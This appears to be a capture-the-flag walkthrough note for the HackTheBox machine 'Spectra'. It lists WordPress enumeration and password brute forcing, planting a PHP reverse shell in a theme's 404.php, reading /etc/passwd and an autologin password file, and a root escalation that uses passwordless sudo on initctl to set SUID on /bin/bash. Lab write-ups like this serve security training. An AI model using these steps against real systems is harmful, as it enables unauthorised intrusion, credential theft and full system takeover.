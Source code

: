# Spectra

> /etc/hosts spectra.htb

**Port 80** 

1. Jira
``` bash 
curl -s 10.10.10.229 | grep -i "jira" 1>/dev/null && echo "OK"
```

2. WordPress 
``` bash 
curl -s http://spectra.htb/main/ | grep -i "wordpress" 1>/dev/null && echo "OK"
wpscan --url http://spectra.htb/main/ -e u
wpscan --url http://spectra.htb/main/ 
wpscan --url http://spectra.htb/main --passwords ~/Downloads/rockyou.txt --usernames user -t 50
```

3. dir
``` bash
wfuzz -c -z file,/opt/node-dirbuster/lists/directory-list-2.3-medium.txt --hc 404 http://spectra.htb/FUZZ
```

> USERS
```
user : user (wp)
user: user (db)
```

### dir

> main
>> wp
> testing 
>> index-of*
> files 
wp-admin/                                          
wp-content/                                       
wp-includes/                                       
index.php                                          
license.txt                                        
readme.html                                        
wp-activate.php                                    
wp-blog-header.php                                 
wp-comments-post.php                               
wp-config.php                                      
wp-config.php.save
wp-cron.php                                        
wp-links-opml.php                                  
wp-load.php                                        
wp-login.php                                       
wp-mail.php                                        
wp-settings.php                                    
wp-signup.php                                    
wp-trackback.php                                   
xmlrpc.php 


**PORT 22** 

> failed access with users


**PORT 3306** 


1. reverse shell - https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
2. http://spectra.htb/main/wp-content/themes/twentyseventeen/404.php


> connect with user no db, failed 

```
root:x:0:0:root:/root:/bin/bash
chronos:x:1000:1000:system_user:/home/chronos/user:/bin/bash
nginx:x:20155:20156::/home/nginx:/bin/bash
katie:x:20156:20157::/home/katie:/bin/bash
```



> cat /etc/issue
```
Developer Console
To return to the browser, press:

  [ Ctrl ] and [ Alt ] and [ <- ]  (F1)

To use this console, developer mode must be enabled.
Doing so will destroy any saved data on the system.

In developer mode, it is possible to
- login and sudo as user 'chronos'
- require a password for sudo and login(*)
- disable power management behavior (screen dimming):
  sudo initctl stop powerd
- install your own operating system image!

* To set a password for 'chronos', run the following as root:

chromeos-setdevpasswd

If you are having trouble booting a self-signed kernel, you may need to
enable USB booting.  To do so, run the following as root:

enable_dev_usb_boot

Have fun and send patches!
```

**LinPeas**

```bash
cat /etc/autologin/passwd
```

1. user:user
2. grupos? 
	1. developer
3. sudo?
	1. NOPASSWD(initctl)

```bash
sudo -u root /sbin/initctl list
vim /etc/init/test.conf 
script 
	chmod +s /bin/bash
end script
```


